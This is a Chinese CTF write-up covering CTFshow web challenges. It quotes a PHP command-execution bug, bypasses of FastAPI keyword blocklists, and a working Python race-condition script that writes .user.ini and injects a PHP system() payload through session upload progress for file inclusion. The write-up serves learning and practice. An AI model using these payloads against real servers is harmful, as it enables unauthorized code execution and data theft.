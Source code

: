 ```yaml
---
title: "CTFshow-原谅杯"
date: 2024-03-23
categories: 
  - "ctf"
tags: 
  - "ctf"
---
```


_前言_ ：练习题目，康复训练

* * *

## 原谅4

```
 <?php isset($_GET['xbx'])?system($_GET['xbx']):highlight_file(__FILE__); 
```

题目给了这一段代码，但是经过测试，只有ls、rm、sh这三个命令能用

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711164713-image.png)

flag在根目录，没有直接读取文件的命令

但是这个sh命令是可以执行文件中的命令的，类似于下图

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711165270-image.png)

当文件中的命令不能被正常执行时候，会抛出command not found的错误

可以使用linux中的重定向错误输出，具体可见下文

- [一篇文章看懂linux的2>$1-CSDN博客](https://blog.csdn.net/funnypython/article/details/83859508)

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711165653-image.png)

重定向之后，错误输出就变成了标准输出，浏览器可以正常显示，于是预期解如下

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711165868-image.png)

由于只是限制了/bin目录下的二进制文件，但是在其他目录下还可能存在其他的命令文件，就存在了非预期，比如说在/usr/local/bin下存在php文件，可以用这个

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711165941-image.png)

尝试直接包含/flag

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711166198-image.png)

## 原谅5\_fastapi2

fastapi存在一个docs接口可以进行交互操作

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711166836-image.png)

题目给出提示过滤

```
['import', 'open', 'eval', 'exec', 'class', '\'', '"', 'vars', 'str', 'chr']
```

使用list查看calc的全局变量如下

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711167641-image.png)

在youdontknow里面存在有过滤的单词和字符

这里可以尝试消去youdontknow里的所有属性

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711168122-image.png)

传入youdontknow.clear()命令之后，再进行list查看全局变量，可以发现waf被覆盖了

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711168160-image.png)

最后使用open read文件操作读取根目录下的flag

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711168375-image.png)

## 原谅6\_web3

```
 <?php
error_reporting(0);
highlight_file(__FILE__);
include('waf.php');
$file = $_GET['file'] ?? NULL;
$content = $_POST['content'] ?? NULL;
(waf_file($file)&&waf_content($content))?(file_put_contents($file,$content)):NULL;
```

对于输入的文件参数有过滤，这道题考察的是修改.user.ini来进行session文件包含

![](https://www.hyhforever.top/wp-content/uploads/2024/03/1711177605-image.png)

但是默认uploadclearup是on，那么上传之后就会立即清空，不过存在条件竞争可能性

- [利用session.upload\_progress进行文件包含和反序列化渗透 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/202819.html)

根据上文中的脚本进行简单修改

```

import io
import requests
import threading

sessid = 'hyh'
url='http://518a31e6-f1c8-4991-ab71-8a1573952207.challenge.ctf.show/'

def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( url, data={'PHP_SESSION_UPLOAD_PROGRESS': "<?php system('cat ./flag.php');?>"}, files={'file': ('hyh.txt',f)}, cookies={'PHPSESSID': sessid} )

def read(session):
    while True:
        resp = session.get(url + "index.php")
        if "upload_progress" in resp.text:
            print(resp.text)

if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        hyh={
            "content": "auto_prepend_file=/tmp/sess_" + sessid
        }//先写入.user.ini文件
        session.post(url + "?file=.user.ini", data=hyh)
        for i in range(1,30):
            threading.Thread(target=write,args=(session,)).start()
        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

自动包含sess文件之后会对所有文件生效,同时再访问index.php或者waf.php即可看到被包含的flag

## fastapi2 for 阿狸

过滤名单`['import', 'open', 'eval', 'exec', 'class', '\'', '"', 'vars', 'str', 'chr', '%', '_', 'flag','in', '-', 'mro', '[', ']']`

额没什么好说的,跟上面那个一样
